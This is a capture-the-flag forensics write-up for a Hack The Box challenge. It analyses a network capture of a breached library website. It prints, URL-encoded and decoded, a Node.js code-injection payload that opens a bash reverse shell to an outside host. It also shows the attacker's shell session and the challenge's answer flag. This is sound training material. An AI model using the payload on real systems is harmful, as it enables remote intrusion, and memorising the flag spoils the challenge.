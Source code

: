 # ForbiddenManuscript

## FLAG: HTB{f0rb1dd3n_m4nu5cr1p7_15_1n_7h3_w1ld}

## Status: Complete

+ DOCKER: No
+ DOWNLOADABLE: Yes

Description: On the haunting night of Halloween, the website of Shadowbrook Library—a digital vault of forbidden and arcane manuscripts—was silently breached by an unknown entity. Though the site appears unaltered, unsettling anomalies suggest something sinister has been stolen from its cryptic depths. Ominous network traffic logs from the time of the intrusion have emerged. Your task is to delve into this data and uncover any dark secrets that were exfiltrated.

## NOTES

1. Unzip challenge files
   1. > unzip forensics_forbidden_manuscript.zip
      1. capture.pcapng
      2. This looks like it is a network capture
      3. We will need wireshark
2. WIRESHARK
   1. On first glance it looks like a ton of HTTP and TCP traffic
      1. Looking at the heirarchy
         1. In here we see several HTTP Request & Responses and TCP traffic
   2. ENUMERATION
      1. Sort our data by all the GET requests
         1. We see several duplicates, but the main requests are:
            1. GET /
            2. GET /?user=aaaaaa
            3. GET /?user=test
            4. GET /?user=exploit%28%29%20%7B%7D%20%26%26%20%28%28%28%29%3D%3E%7B%20global.process.mainModule.require%28%22child_process%22%29.execSync%28%22bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.56.104%2F4444%200%3E%261%27%22%29%3B%20%7D%29%28%29%29%20%26%26%20function%20pwned
            5. GET /dark-theme.css
            6. GET /manuscripts/add
            7. GET /manuscripts/search
            8. GET /manuscripts/search?query=pumpkin
            9. GET /manuscripts/view/1
            10. GET /manuscripts/view/2
3. INVESTIGATION
   1. Out of all the GET requests there was one that really stood out
      1. GET /?user=exploit%28%29%20%7B%7D%20%26%26%20%28%28%28%29%3D%3E%7B%20global.process.mainModule.require%28%22child_process%22%29.execSync%28%22bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.56.104%2F4444%200%3E%261%27%22%29%3B%20%7D%29%28%29%29%20%26%26%20function%20pwned
   2. This looks to be URL encoded, lets decode this
   3. CYBERCHEF
      1. URL DECODE ->
         1. "/?user=exploit() {} && ((()=>{ global.process.mainModule.require("child_process").execSync("bash -c 'bash -i >& /dev/tcp/192.168.56.104/4444 0>&1'"); })()) && function pwned"
         2. This looks like it is a revshell
4. NEXT STEPS
   1. So I didn't find anything in the HTTP request, BUT - we should look at the TCP packets right after the REVSHELL is intialized, we might get more data from that!
   2. RIGHTCLICK -> FOLLOW -> TCP STREAM

        ```text
            .]0;root@quantum: /home/oliver/Downloads/shadowbrook-library.root@quantum:/home/oliver/Downloads/shadowbrook-library# 
            ls

            ls
            data
            docker-compose.yml
            Dockerfile
            node_modules
            package.json
            package-lock.json
            src
            .]0;root@quantum: /home/oliver/Downloads/shadowbrook-library.root@quantum:/home/oliver/Downloads/shadowbrook-library# 
            ls /

            ls /
            bin
            bin.usr-is-merged
            boot
            cdrom
            dev
            etc
            flag
            home
            lib
            lib64
            lib.usr-is-merged
            lost+found
            media
            mnt
            opt
            proc
            root
            run
            sbin
            sbin.usr-is-merged
            snap
            srv
            swap.img
            sys
            tmp
            usr
            var
            .]0;root@quantum: /home/oliver/Downloads/shadowbrook-library.root@quantum:/home/oliver/Downloads/shadowbrook-library# 
            cat /flag

            cat /flag
            4854427b66307262316464336e5f6d346e753563723170375f31355f316e5f3768335f77316c647d
            .]0;root@quantum: /home/oliver/Downloads/shadowbrook-library.root@quantum:/home/oliver/Downloads/shadowbrook-library# 
            exit

            exit
            exit
        ```

        1. BINGO!! We see in here the user runs the cat command on the flag
           1. > cat /flag
              1. 4854427b66307262316464336e5f6d346e753563723170375f31355f316e5f3768335f77316c647d
5. DECODE
   1. So now we see the flag, but it looks encoded, this particular string looks more like HEXADECIMAL, than it does BASE64
   2. CYBERCHEF
      1. FROM HEX
         1. FLAG: `HTB{f0rb1dd3n_m4nu5cr1p7_15_1n_7h3_w1ld}`
